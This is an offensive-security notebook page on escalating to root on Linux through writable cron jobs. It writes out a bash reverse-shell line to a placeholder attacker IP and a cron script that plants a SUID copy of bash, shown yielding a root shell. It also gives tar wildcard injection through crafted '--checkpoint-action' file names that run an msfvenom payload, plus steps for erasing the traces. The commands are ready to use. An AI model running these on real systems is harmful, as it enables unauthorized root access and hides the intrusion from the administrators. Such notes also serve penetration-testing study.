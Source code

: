# Unix Shell

## 01 - File Permissions

After performing the Enumeration and Discovery phase for [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Linux/Host/0xC - Scheduled Tasks/Cron Job/Manual/Living off the Land|Cron Jobs]] and [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Linux/Host/0xF - Files and Directories/Living off the Land|Writable Folders]].

```
$ ls -l /usr/local/bin/overwrite.sh
-rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh
$ echo "bash -i >& /dev/tcp/<attacker_ip>/<LPORT> 0>&1" >> /usr/local/bin/overwrite.sh
```

You can find more [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xB - Callback Implants/One-Liners/Linux/Reverse Shells/Bash|bash one-liners]] regarding with this section.

## 02 - PATH Environment Variable

Another way we can utilize this vulnerability is way using the same privilege escalation technique for [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x02 - Privilege Escalation/Linux/Local Privilege Escalation/SUID and SGID/README|README]].

We create a new shell script to copy the `/bin/bash` binary and change file permissions with a sticky-bit SUID and SGID.

```
$ cp /usr/local/bin/overwrite.sh /tmp/overwrite.sh.bak
$ cat overwrite.sh
#!/bin/bash  
  
cp /bin/bash /tmp/cronjob  
chmod +xs /tmp/cronjob
$ chmod +x overwrite.sh
$ ls -lah /tmp/cronjob
-rwsr-sr-x 1 root root 905K Jan 19 15:28 /tmp/cronjob
$ /tmp/cronjob -p
cronjob-4.1# whoami
root
cronjob-4.1# exit
exit
```

## 03 - Wildcards

### 3.1 - Detect

One of the few mistakes due to negligence for not taking into account when backing things up with root privileges.

```
$ cat /usr/local/bin/compress.sh
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```

Notice the wildcard that runs with a character `*` in the home directory. If we search about the GTFOBins website to exploit the sudo privileges for the archiving program called [tar](https://gtfobins.github.io/gtfobins/tar/).

### 3.2 - Exploit

Generate a payload with msfvenom and look to the [[Global References MSFVenom|MSFVenom Regular Reverse Shell Payloads]] section then transfer the payload to the compromised machine and look more into **File Transfers and Data Exfiltration** section.

```
$ chmod +x shell.elf
$ touch /home/user/--checkpoint=1
$ touch /home/user/--checkpoint-action=exec=shell.elf
$ ls -lh
total 0
-rw-r--r-- 1 user user    0 Jan 19 15:46 --checkpoint=1
-rw-r--r-- 1 user user    0 Jan 19 15:46 --checkpoint-action=exec=shell.elf
```

### 3.3 - Cleanup

Launch a reverse shell handler like netcat, msfconsole or any handler of your choosing. Once you've received a connection. Cleanup the trace you've left.

```
$ rm /home/user/shell.elf
$ rm /home/user/--checkpoint=1
$ rm /home/user/--checkpoint-action\=exec\=shell.elf
```

---
## References

- [Linux Privilege Escalation by Exploiting Cron Jobs](https://www.hackingarticles.in/linux-privilege-escalation-by-exploiting-cron-jobs/)

- [Crontab.guru](https://crontab.guru)